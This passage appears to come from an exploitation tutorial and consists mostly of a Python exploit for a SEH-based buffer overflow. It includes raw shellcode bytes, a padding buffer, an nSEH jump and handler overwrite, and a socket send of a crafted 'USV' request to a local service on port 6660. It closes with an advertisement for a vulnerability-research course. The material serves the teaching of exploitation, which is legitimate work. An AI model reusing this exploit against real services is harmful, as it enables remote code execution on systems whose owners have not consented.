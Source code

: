 ```python
"\x83\xcd\x0b\x09\xeb\x04\xdb\xe1\x47\xfc\x23\xd9\xfb\x96\x3c\xa0"
"\x3d\x1f\x94\xad\x14\xb5\xe5\x81\xff\x5c\x7e\x47\x68\xc2\x13\x0e"
"\x8d\x6e\xbc\x49\x67\xa3\xb5\x8e\x1d\x7f\x4f\xb2\xd3\xbf\xbc\x98"
"\xea\x02\x6e\x22\x50\xaf\xe3\x57\x2f\x97\xa8\xcc\x7b\x8f\xdc\xec"
"\xcf\x46\xde\x65\x74\x98\xf6\xde\x23\x34\xa6\xb1\x9a\xd2\x49\x60"
"\x4c\x76\x1b\x7d\xbe\x10\x36\x58\x3a\x2f\x1b\xa5\x93\xc5\x63\xa6"
"\x2b\xe5\x4c\xd3\x03\xe5\xee\x27\xcf\xea\x27\xf5\xef\xc5\xa0\x87"
"\xd7\x04\x43\x24\x17\x1e\x5b\x1a")

target = "127.0.0.1"
port = 6660

buff = "A" * 962
buff += "\xeb\x06\x90\x90" #nSEH
buff += "\xb9\x44\x81\x1b"
buff += "\x90" * 4 #Shellcode placeholder
buff += sc
buff += "D" * (2500-len(buff))

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect((target, port))
s.send('USV ' + buff + '\r\n\r\n')
s.close()
```

![img](images/seh-based-overflow-32.png)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html)
::: In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
